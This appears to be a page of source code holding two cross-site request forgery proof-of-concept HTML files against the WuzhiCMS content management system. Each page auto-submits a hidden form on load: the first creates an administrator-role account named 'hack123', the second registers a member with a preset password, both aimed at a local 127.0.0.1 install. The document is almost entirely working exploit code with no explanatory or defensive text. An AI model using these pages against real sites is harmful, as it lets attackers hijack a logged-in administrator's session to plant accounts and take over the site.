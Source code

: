 CSRF1
-----

    <html><body>
        <script type="text/javascript">
        function post(url,fields)
        {
        var p = document.createElement("form");
        p.action = url;
        p.innerHTML = fields;
        p.target = "_self";
        p.method = "post";
        document.body.appendChild(p);
        p.submit();
        }
        function csrf_hack()
        {
        var fields;

        fields += "<input type='hidden' name='form[role][]' value='1' />";
        fields += "<input type='hidden' name='form[username]' value='hack123' />";
        fields += "<input type='hidden' name='form[password]' value='' />";
        fields += "<input type='hidden' name='form[truename]' value='taoge@5ecurity' />";

        var url = "http://127.0.0.1/www/index.php?m=core&f=power&v=add&&_su=wuzhicms&_menuid=61&_submenuid=62&submit=提交";
        post(url,fields);
        }
        window.onload = function() { csrf_hack();}
        </script>
        </body></html>

CSRF2
-----

    <html><body>
    <script type="text/javascript">
    function post(url,fields)
    {
    var p = document.createElement("form");
    p.action = url;
    p.innerHTML = fields;
    p.target = "_self";
    p.method = "post";
    document.body.appendChild(p);
    p.submit();
    }
    function csrf_hack()
    {
    var fields;

    fields += "<input type='hidden' name='info[username]' value='hack123' />";
    fields += "<input type='hidden' name='info[password]' value='hacktest' />";
    fields += "<input type='hidden' name='info[pwdconfirm]' value='hacktest' />";
    fields += "<input type='hidden' name='info[email]' value='taoge@5ecurity.cn' />";
    fields += "<input type='hidden' name='info[mobile]' value='' />";
    fields += "<input type='hidden' name='modelids[]' value='10' />";
    fields += "<input type='hidden' name='info[groupid]' value='3' />";
    fields += "<input type='hidden' name='pids[]' value='0' />";
    fields += "<input type='hidden' name='pids[]' value='0' />";
    fields += "<input type='hidden' name='pids[]' value='0' />";
    fields += "<input type='hidden' name='pids[]' value='0' />";
    fields += "<input type='hidden' name='avatar' value='' />";
    fields += "<input type='hidden' name='islock' value='0' />";
    fields += "<input type='hidden' name='sys_name' value='0' />";
    fields += "<input type='hidden' name='info[birthday]' value='' />";
    fields += "<input type='hidden' name='info[truename]' value='' />";
    fields += "<input type='hidden' name='info[sex]' value='0' />";
    fields += "<input type='hidden' name='info[marriage]' value='0' />";

    var url = "http://127.0.0.1/www/index.php?m=member&f=index&v=add&_su=wuzhicms&_menuid=30&_submenuid=74&submit=提交";
    post(url,fields);
    }
    window.onload = function() { csrf_hack();}
    </script>
    </body></html>